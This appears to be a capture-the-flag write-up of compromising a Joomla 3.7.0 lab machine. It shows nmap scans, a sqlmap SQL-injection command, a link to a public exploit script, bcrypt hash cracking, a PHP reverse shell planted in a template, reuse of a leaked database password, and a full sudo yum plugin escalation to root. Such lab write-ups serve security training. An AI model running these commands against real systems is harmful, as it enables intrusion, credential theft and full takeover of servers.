nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.82.184.33
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 17:03 IST
Nmap scan report for 10.82.184.33
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds

```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,3306 10.82.184.33
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 17:04 IST
Nmap scan report for 10.82.184.33
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-title: Home
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.18 seconds
```

Visited web page on port 80


Directory brute forcing

Then, upon opening this directory we found out that an instance of Joomla was running on this website.


Thus, we ran joomscan on this website and discovered the version **3.7.0** being run


Right away we looked out for public exploits for this installed instance using searchsploit and discovered that version 3.7.0 was vulnerable to SQLi via the com_fields parameter.




As exploit number 42033 told us, this sql injection vulnerability could be exploited by the following command
```sh
sqlmap -u "http://10.82.184.33/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```



However, while running this scan, it was taking way too long and so, we looked out for another script called “Joomblah.py” which is a POC for this SQLi vulnerability in Joomla v3.7.0. So we downloaded this script, ran and found credentials!
To download joomla sqli exploitation python script
https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py


Run John the Ripper to crack the password hash, and we succeed.


```sh
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


we have received clear text credentials. We logged in to the admin panel using this and can see a dashboard now!


Like with any other CMS, Joomla also has templates that are running on PHP, therefore, right away we copied the php-reverse-shell.php code in the template file and clicked on template preview. Before launching template preview we also set up a netcat listener.






Before clicking on template preview start nc




After a quick system check and looking at the website’s files, we found a configuration file that had credentials of a database. root user had the password: **nv5uz9r3ZEDzVjNu**


Now, we tried to login into another existing user jjameson using this password and it worked! We immediately spawned a stable teletype using python. Thereafter, we looked into the sudoers file and found yum in the entries.




Searched on gtfobins for sudo yum and we found below but this didnt work



So chatgpt gave me right code. Copy this as it is in every steps.
```
 TF=$(mktemp -d)
```

```
step 2: cat > $TF/x <<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
```

```
cat > $TF/y.py <<EOF
import os
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE

requires_api_version = '2.1'

def init_hook(conduit):
    os.execl('/bin/sh', '/bin/sh')  #its 1 not l(L)
EOF
```

```
sudo yum -c $TF/x --enableplugins=y
```

Step 1 & 2


step 3 & 4




